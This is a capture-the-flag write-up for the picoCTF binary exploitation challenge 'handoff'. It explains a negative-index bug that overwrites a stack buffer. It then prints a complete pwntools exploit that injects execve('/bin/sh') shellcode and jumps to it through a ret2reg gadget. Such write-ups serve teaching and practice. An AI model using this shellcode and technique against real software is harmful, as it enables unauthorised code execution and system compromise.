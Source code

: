 ```yaml
---
title: handoff
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: picoCTF{REDACTED}
---
```

> No description.

by SkrubLawd

---

We are given a binary and the source code for it. The binary is a simple program that allows us to add recipients and send messages to them.

```c
else if (choice == 2) {
    choice = -1;
    puts("Which recipient would you like to send a message to?");
    if (scanf("%d", &choice) != 1) exit(0);
    getchar();

    if (choice >= total_entries) {
        puts("Invalid entry number");
        continue;
    }

    puts("What message would you like to send them?");
    fgets(entries[choice].msg, MSG_LEN, stdin);
}
```

In the `vuln` function, we can see that the program reads a message into the recipient's message buffer using `fgets`. The choice is not sanitized, so we can send a message to the recipient at index `-1`.

Where when we send a message to the recipient at index `-1`, the `RAX` register will be set to the address of the message buffer and after 40 bytes, the `RIP` will be overwritten. We can use [ret2reg](https://ir0nstone.gitbook.io/notes/binexp/stack/reliable-shellcode/ret2reg/using-ret2reg) method where we can jump to the `RAX` register which contains the shellcode.

```py
from pwn import *

binary = './handoff'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('shape-facility.picoctf.net', 54989)

def add_entry(name):
    r.sendlineafter(b'What option would you like to do?', b'1')
    r.sendlineafter(b'What\'s the new recipient\'s name: ', name)

def add_message(choice, message):
    r.sendlineafter(b'What option would you like to do?', b'2')
    r.sendlineafter(b'Which recipient would you like to send a message to?', choice)
    r.recvuntil(b'What message would you like to send them?')
    print(f'Len: {len(message)}')
    r.sendline(message)

def exit(feedback):
    r.sendlineafter(b'What option would you like to do?', b'3')
    r.sendlineafter(b'Thank you for using this service! If you could take a second to write a quick review, we would really appreciate it:', feedback)

JMP_RAX = 0x000000000040116c

shellcode = asm('''
    mov rax, 0x3b
    mov rdi, 0x0068732f6e69622f
    push rdi
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    syscall
''')

payload = flat([
    shellcode.ljust(40, b"\00"),
    JMP_RAX,
])
add_message(b'-1', payload)
r.interactive()
```
